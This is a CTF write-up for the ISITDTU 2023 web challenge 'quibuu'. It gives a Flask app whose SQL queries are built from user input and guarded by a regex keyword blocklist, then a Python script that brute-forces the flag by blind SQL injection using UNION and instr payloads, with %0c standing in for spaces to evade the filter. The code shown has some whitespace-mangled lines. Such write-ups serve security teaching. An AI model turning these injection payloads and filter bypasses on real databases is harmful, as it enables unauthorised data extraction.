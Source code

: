 # quibuu

Source: ISITDTU CTF 2023

Technique: Blind SQL Injection

Fields: Web

- app.py
    
    ```python
    from flask import Flask, render_template, request
    import random
    import re
    import urllib.parse
    import sqlite3
    #-----------------------------------------------------------------------------------
    app = Flask(__name__)
    
    # waf prevent potential dangerous word that can be in a sqli payload
    def waf_cuc_chill(ans):
    # idk, I thought too much of a good thingans = urllib.parse.quote(ans)
        pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
        if pattern.search(ans):
            returnTruereturnFalse@app.route("/", methods=["GET"])
    
    #-------------------------------------------------------------------------------     
    def index():
        ran = random.randint(1, 11)
        id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")
    
        ifnot (idand str(id).isdigit()and int(id) >= 1and int(id) <= 1301):
            id = 1
    		#connect db
        db = sqlite3.connect("hehe.db")
        cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
        img = cursor.fetchone()[0]
    
        if waf_cuc_chill(ans):
            return render_template("hack.html")
    
        cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
        result = cursor.fetchall()
    
        check = 0
        if result != []:
            check = 1
        elif result == []and ans != "" :
            check = 2
    
        return render_template("index.html", id=id, img=img, ans=ans, check=check)
    #-------------------------------------------------------------------------------
    if __name__ == "__main__":
        app.run()
    ```
    

The database gives many ID and after searching a little bit, I found the flag in ID 1337.

![https://hackmd.io/_uploads/S1MvgpZN6.png](https://hackmd.io/_uploads/S1MvgpZN6.png)

And we can inject into the id but also need to bypass the function

waf_cuc_chill()

**Idea:**

> Inject id and create a new table name F that concat with table QuiBuu and choose the id 1337 to get the flag.This need to brute the flag in url (Blind SQL Injection) to get the real flag in the column URL. In this challenge i use instr ( Link). Note: I didn’t see the author only filter substring and subsrt but left the substr until the author talk that to me after this CTF end lul.
> 
- exploit script
    
    ```python
    import requests
    import string
    
    # payload = "'OR SELECT * FROM QuiBuu WHERE ID = 1 UNION SELECT 1,2,F.`3` FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F/*".replace(" ","%0c")
    # payload = "abc'OR SELECT GROUP_CONCAT(F.`3`) FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F".replace(" ","%0c")
    # payload = "a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\"ISITDTU\"))/*".replace(" ","%0c")
    flag = ""
    url = "http://20.198.223.134:1301/?id=1&ans="
    
    whileTrue:
      for c in string.printable: #tat ca ki tu co the in dc: chu, so, ki tu db, dau cach, control characters(\t\n\r,...)
        if c not in ['*','+','.','?','|', '#', '&', '$']: #loai bo cac ki tu nhay cam khi dua vao url
            payload = ("a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\""+flag+c+"\"))/*").replace(" ","%0c")
            #  thực hiện yêu cầu GET tới máy chủ mục tiêu, gắn payload SQL Injection vào tham số ans của URL.
            r = requests.get(url + payload, stream=True)
     
            if 'Haha QuiBuu!'in r.text:
                print(f" [+] Brute flag successfully : {flag+c}")
                flag += c
    ```
